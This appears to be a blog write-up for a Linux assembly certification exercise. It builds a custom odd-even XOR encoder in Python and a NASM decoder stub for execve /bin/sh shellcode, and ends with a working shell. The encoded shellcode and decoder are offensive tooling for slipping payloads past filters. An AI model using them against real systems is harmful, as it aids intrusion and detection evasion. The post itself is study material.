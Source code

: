 ```yaml
---
layout: post
title: Assignment 4 - Odd-Even encoder
categories: [re,exploit]
tags: [slae, osce]
fullview: false
comments: true
---
```

# Assignment #4
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

My idea for a custom encoder is very simple, in fact. In short, I broke the encoded shellcode in two parts: the even and odd positions. What this encoder does is reading the encoded string byte by byte and treating the bytes in odd and even positions differently. The biggest difficult was to create this decision making mechanism, which consists in two conditional jumps inside a loop. Depending whether it is an odd or even position, the current byte will be XORed with 0xAA or 0xBB.

## Odd-Even XOR encoder
I used `python3.5` for encoding the execve shellcode:

```
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

encoded = ""
encoded2 = ""

for idx, x in enumerate(shellcode):
    if idx%2 == 0:
        y = x ^ 0xaa
    else:
        y = x ^ 0xbb

    encoded += '\\x'
    encoded += '%02x' % (y & 0xff)

    encoded2 += '0x'
    encoded2 += '%02x,' %(y & 0xff)

print(encoded)
print(encoded2)
```

Generating the encoded shellcode:

```
$ python3.5 encoder.py 
\x9b\x7b\xfa\xd3\x85\x94\xd9\xd3\xc2\x94\xc8\xd2\xc4\x32\x49\xeb\x23\x59\xf9\x32\x4b\x0b\xa1\x76\x2a
0x9b,0x7b,0xfa,0xd3,0x85,0x94,0xd9,0xd3,0xc2,0x94,0xc8,0xd2,0xc4,0x32,0x49,0xeb,0x23,0x59,0xf9,0x32,0x4b,0x0b,0xa1,0x76,0x2a,
```

## Odd-Even XOR decoder
After JMP-CALL-POP, we are inside the loop which runs over the whole encrypted shellcode (25 bytes). The first thing we do is checking whether the position index is even or odd and jump to the corresponding piece of code. After XORing the current byte of the encoded shellcode, it loops back to the `decode` label, continuing the loop.

```
global _start			

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25

decode:
	test cl, 1
	jz even   
	jnz odd
even:
	mov bx, [esi]
        xor bx, 0xBB
	mov [esi], bl

       inc esi
       loop decode
       jmp short EncodedShellcode
odd:
       mov bx, [esi]
       xor bx, 0xAA
       mov [esi], bl

       inc esi
       loop decode
       jmp short EncodedShellcode

call_shellcode:

	call decoder
	EncodedShellcode: db 0x9b,0x7b,0xfa,0xd3,0x85,0x94,0xd9,0xd3,0xc2,0x94,0xc8,0xd2,0xc4,0x32,0x49,0xeb,0x23,0x59,0xf9,0x32,0x4b,0x0b,0xa1,0x76,0x2a 
``` 

This is a CFG visualization of the decoder generated by IDA.

![Decoder visualization]({{ "/assets/media/decoder.png" | absolute_url }})

## A small caveat
In order to be able to modify the encrypted shellcode (ie to substitute its bytes for the decrypted ones) we must remember it is located in the `.text` section which is not writable by default. 

Lets assemble and link our decoder:

    $ nasm -f elf32 decoder.asm -o decoder.o ; ld -m elf_i386 decoder.o -o decoder

Now we check sessions permissions using `readelf`:

```
$ readelf -S decoder
There are 5 section headers, starting at offset 0x1fc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 00004a 00  AX  0   0 16
  [ 2] .symtab           SYMTAB          00000000 0000ac 0000d0 10      3   9  4
  [ 3] .strtab           STRTAB          00000000 00017c 00005d 00      0   0  1
  [ 4] .shstrtab         STRTAB          00000000 0001d9 000021 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

Just confirming where our string is:

    objdump -d decoder | grep EncodedShellcode
    ...
    08048091 <EncodedShellcode>:
    ...

So yeah, in `.text` section, which is not Writable. To make it writable we need to link it with the `-N` parameter:

```
       -N
       --omagic
           Set the text and data sections to be readable and writable.  Also, do not page-align the data segment, and disable linking against
           shared libraries.  If the output format supports Unix style magic numbers, mark the output as "OMAGIC". Note: Although a writable
           text section is allowed for PE-COFF targets, it does not conform to the format specification published by Microsoft.
```

Therefore:

	$ nasm -f elf32 decoder.asm -o decoder.o ; ld -N -m elf_i386 decoder.o -o decoder

Checking permissions:

```
$ readelf -S decoder
There are 5 section headers, starting at offset 0x1fc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 00004a 00 WAX  0   0 16
  [ 2] .symtab           SYMTAB          00000000 0000ac 0000d0 10      3   9  4
  [ 3] .strtab           STRTAB          00000000 00017c 00005d 00      0   0  1
  [ 4] .shstrtab         STRTAB          00000000 0001d9 000021 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

There we go, writable `.text` section!. Executing it:

```
$ ./decoder 
$ whoami
valle
```

